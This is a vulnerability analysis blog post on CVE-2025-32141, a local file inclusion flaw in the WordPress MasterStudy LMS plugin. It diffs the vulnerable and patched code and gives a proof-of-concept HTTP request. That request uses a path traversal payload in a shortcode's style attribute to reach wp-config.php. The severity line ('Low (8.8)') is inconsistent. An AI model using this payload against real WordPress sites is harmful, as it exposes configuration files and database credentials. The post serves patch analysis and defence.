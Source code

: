 ```yaml
---
title: CVE-2025-32141 Analysis & POC
description: Security Vulnerability in WordPress MasterStudy LMS Plugin.
date: 2025-10-21 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info

The **MasterStudy LMS** plugin version **≤ 3.5.28** contains a **Local File Inclusion (LFI)** vulnerability that allows an unauthenticated attacker to control the file parameter in the `include/require` statement, enabling the inclusion or reading of local files on the server (e.g., configuration files containing credentials). This can lead to sensitive information disclosure and, in certain configurations, remote code execution.

* **CVE ID**: [CVE-2025-32141](https://www.cve.org/CVERecord?id=CVE-2025-32141)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 3.5.28
* **Patched Versions**: 3.5.29
* **CVSS severity**: Low (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **MasterStudy LMS**: **3.5.28** (vulnerable) and **3.5.29** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to compare the two versions.

## Analysis

### Patch diff

**Vulnerable Version**:

```php {filename="stm_lms_courses_categories.php v3.5.28" hl_lines=[7,12]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts ) {
    $atts = shortcode_atts(
        array(
            'taxonomy' => '',
            'style'    => 'style_1',
        ),
        $atts
    );
    ob_start();
    STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
    return ob_get_clean();
}
```

In the vulnerable version, the shortcode callback `stm_lms_courses_categories` directly passes the `style` value from `$atts` into `STM_LMS_Templates::stm_lms_load_vc_element()` without sanitization or validation — leading to a potential LFI.

**Patched Version**:

```php {filename="stm_lms_courses_categories.php v3.5.29" hl_lines=[7,12,14]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts, $content = null, $tag = '' ) {
	$atts = shortcode_atts(
		array(
			'taxonomy' => '',
			'style'    => 'style_1',
		),
		$atts,
		$tag
	);
	$atts['style'] = basename( sanitize_file_name( $atts['style'] ) );
	ob_start();
	STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
	return ob_get_clean();
}
```

The patch sanitizes `$atts['style']` using [`sanitize_file_name()`](https://developer.wordpress.org/reference/functions/sanitize_file_name/), removing unsafe characters and preventing LFI.

### Vulnerable Code

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_load_vc_element( $__template, $__vars = array(), $__template_name = '', $custom_path = '' ) {
    extract( $__vars ); // phpcs:ignore WordPress.PHP.DontExtract
    $element = self::stm_lms_locate_vc_element( $__template, $__template_name, $custom_path );
    if ( ! file_exists( $element ) && strpos( $__template_name, 'style_' ) !== false ) {
        $element = str_replace( $__template_name, 'style_1', $element );
    }
    if ( file_exists( $element ) ) {
        include $element;
    } else {
        echo esc_html__( 'Element not found in', 'masterstudy-lms-learning-management-system' );
        echo esc_html( ' ' . $element );
    }
}
```

The `include()` statement uses `$element` returned from `stm_lms_locate_vc_element()`, which is influenced by `$__template_name` (the `style` parameter from the shortcode). Without validation, an attacker can manipulate it to include arbitrary files, leading to LFI.

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_locate_vc_element( $templates, $template_name = '', $custom_path = '' ) {
    $located = false;

    foreach ( (array) $templates as $template ) {

        $folder = $template;

        if ( ! empty( $template_name ) ) {
            $template = $template_name;
        }

        if ( substr( $template, -4 ) !== '.php' ) {
            $template .= '.php';
        }

        if ( empty( $custom_path ) ) {
            $located = locate_template( 'partials/vc_parts/' . $folder . '/' . $template );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/includes/shortcodes/partials/' . $folder . '/' . $template;
            }
        } else {
            $located = locate_template( $custom_path );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/' . $custom_path . '.php';
            }
        }

        if ( file_exists( $template_name ) ) {
            break;
        }
    }

    return apply_filters( 'stm_lms_locate_vc_element', $located, $templates );
}
```

The `stm_lms_locate_vc_element()` function determines and returns the path of the template file (`.php`).

If `$template_name` is provided, it **overrides the default template name** and ensures it ends with `.php`. The resulting file path becomes `STM_LMS_PATH/includes/shortcodes/partials/{folder}/{template}.php`.

For example, with `style=payload`, it returns:

```py
/srv/www/wordpress/wp-content/plugins/masterstudy-lms-learning-management-system/_core/includes/shortcodes/partials/courses_categories/payload.php
```

## Exploit

### Proof of Concept (PoC)

Create a post with a shortcode that includes an LFI payload in the `style` attribute:

```http {hl_lines=[4]}
POST /wp-json/wp/v2/posts/260?_locale=user HTTP/1.1
Host: localhost

{"id":260,"content":"<!-- wp:shortcode -->\n[stm_lms_courses_categories taxonomy=x style=../../../../../../../../wp-config]\n<!-- /wp:shortcode -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->"}
```

**Result**:

The debugger hits `wp-config.php`.

![](result.png "Successful LFI result")

## Conclusion

Versions **≤ 3.5.28** of MasterStudy LMS are vulnerable to LFI via the `style` parameter in the shortcode due to unsanitized input used in an `include` statement. The patch in **3.5.29** sanitizes this input using `sanitize_file_name()` and `basename()`, preventing unauthorized file access.

## Key takeaways

* Never concatenate user input directly into file paths.
* Always sanitize or whitelist values before using them in `include` or `require`.
* Validate the resolved path to ensure it stays within the intended directory.
* Update to **v3.5.29** to eliminate this LFI vulnerability.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[WordPress MasterStudy LMS Plugin <= 3.5.28 is vulnerable to Local File Inclusion](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-5-23-local-file-inclusion-vulnerability?_s_id=cve)
